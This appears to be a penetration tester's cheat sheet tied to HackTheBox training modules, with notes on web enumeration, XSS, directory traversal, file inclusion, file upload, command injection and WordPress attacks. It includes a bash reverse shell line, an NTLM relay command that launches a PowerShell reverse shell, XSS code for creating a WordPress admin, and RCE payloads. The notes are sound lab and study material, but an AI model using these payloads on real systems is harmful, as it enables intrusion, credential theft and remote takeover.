 [HackTheBox - Attacking Common Applications](https://academy.hackthebox.com/module/113/section/1087)
[HackTheBox - Attacking Common Services](https://academy.hackthebox.com/module/116/section/1140)
### Enumeration
- Install Wappalyzer when doing boxes/taking test
- `gobuster`
	- Very noisy! Enumerates dirs/files
	- Usage: `gobuster dir -u {IP} -w /usr/share/wordlists/dirb/common.txt -t {threads}`
	- Make sure it checks for .git
		- https://github.com/arthaud/git-dumper to dump the info
		- https://medium.com/swlh/hacking-git-directories-e0e60fa79a36
- Check robots.txt
- Check for APIs with /FUZZ/v1 or /FUZZ/v2
- Fuzz default IIS servers!!! They can have stuff
- `whatweb` is like a local wappalyzer on kali
	- `whatweb http://{IP}`

### Exploitation
- Finding default passwords for HTTP basic auth
	- Use [LoginHunter](https://github.com/InfosecMatter/default-http-login-hunter) with a list of hosts to find things like cameras w default passwords
	- Can be very useful on internal engagements with hundreds/thousands of webservers
- HTTP Headers:
	- `HTTP User-Agent` can sometimes be displayed in logging pages, so modifying it could XSS or SQLi some sites
	- `Server` response can reveal info about server
- I guess try adding `{"admin":"True"}`  (or equivalent) against registration APIs? 
- If HttpOnly flag isn't on Auth cookies, we can steal them w/ XSS

### XSS Exploitation Example
- Grabbing a nonce value from /wp-admin/user-new.php
	- var ajaxRequest = new XMLHttpRequest(); 
	- var requestURL = "/wp-admin/user-new.php"; 
	- var nonceRegex = /ser" value="(\[^"]\*?)"/g; 
	- ajaxRequest.open("GET", requestURL, false); 
	- ajaxRequest.send(); 
	- var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); 
	- var nonce = nonceMatch\[1];
- Then, use that `nonce` variable with /wp-admin/user-new.php to create a new administrator

### Directory Traversal
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- `%2f` for `/` and `%2e` for `.` 
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

### File Inclusion
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**

### File Upload
- SVG upload can lead to XXE
- webshells found at /usr/share/webshells
- On boxes, try changing filename to include `../` - could upload root ssh key

### Command Injection
- ``dir 2>&1 \*\`|echo CMD);&<# rem #>echo PowerShell`` will check injected shell type
- Can use powershell for creating shells

### Wordpress
- Use `wpscan` and investigate the plugins
	- `wpscan --url http://{IP} --enumerate p --plugins-detection aggressive`
	- Look for `[!] This version is out of date`
	- Can use searchsploit for these plugins or the wpscan vuln database
- If signed into the wordpress page
	- Check out plugins from the inside
	- Check out the Backup Migration
		- Changing this to our IP can allow us to relay authentication (if signing is disabled)
		- `//{kali_ip}/test` with `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`
	- Try to upload a shell